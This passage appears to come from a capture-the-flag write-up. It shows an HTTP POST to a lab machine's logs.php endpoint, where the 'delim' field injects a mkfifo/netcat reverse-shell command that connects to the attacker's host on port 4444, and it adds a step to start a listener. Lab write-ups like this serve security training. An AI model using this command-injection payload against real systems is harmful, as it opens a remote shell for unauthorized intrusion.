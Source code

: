 ![Log-Post-Payload](img/log_post_payload.png) <br>

```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: http://10.10.11.104
DNT: 1
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=[YOUR_COOKIE]
Upgrade-Insecure-Requests: 1
cd ..

delim=coma;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f
```
And let's start a Ncat listener on port 4444 to catch the reverse shell if it works. 
<br>

